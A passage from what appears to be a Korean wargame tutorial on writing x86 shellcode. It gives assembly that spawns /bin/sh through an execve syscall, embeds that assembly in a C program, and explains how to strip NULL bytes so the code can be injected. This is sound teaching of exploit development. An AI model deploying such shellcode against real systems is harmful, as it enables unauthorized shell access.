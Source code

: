``` c
// AT&T format
push $0x0
push $0x0068732f
push $0x6e69622f
mov %esp, %ebx
push $0x0
push %ebx
mov %esp, %ecx
mov $0x0, %edx
mov $0xb, %eax
int $0x80
```

위의 어셈블리어 코드를 c 환경에서 작성한다면 다음과 같이 작성하면 됩니다.  

``` c
// myshell.c
void main(){
        __asm__ __volatile__(
                "push $0x0              \n\t"
                "push $0x0068732f       \n\t"
                "push $0x6e69622f       \n\t"
                "mov %esp, %ebx         \n\t"
                "push $0x0              \n\t"
                "push %ebx              \n\t"
                "mov %esp, %ecx         \n\t"
                "mov $0x0, %edx         \n\t"
                "mov $0xb, %eax         \n\t"
                "int $0x80              \n\t"
        );
}

```

<img data-action="zoom" src='{{ "assets/ftz/shellcode/9.png" | relative_url }}' alt='relative'>  

다음과 같이 위의 소스코드를 컴파일한 뒤 실행해보니 shell이 정상적으로 실행되는 것을 확인할 수 있습니다.  

## 6) NULL을 문자열로 취급하는 것을 수정  

``` bash
objdump -M intel -d myshell | grep \<main\> -A 15
```

<img data-action="zoom" src='{{ "assets/ftz/shellcode/10.jpg" | relative_url }}' alt='relative'>  

objdump 명령어로 myshell 프로그램을 기계어로 변환해보니 NULL(0x00)이 포함되어 있습니다.  
쉘코드에 NULL이 포함되어 있으면 문자열의 끝으로 인식하기 때문에 NULL을 없애줘야 합니다.  

NULL 값을 없애는 방법은 다음과 같습니다.  
1) 자기 자신을 xor 연산하여 0이 되는 특징을 이용  
2) "/bin//sh" == "/bin/sh"  
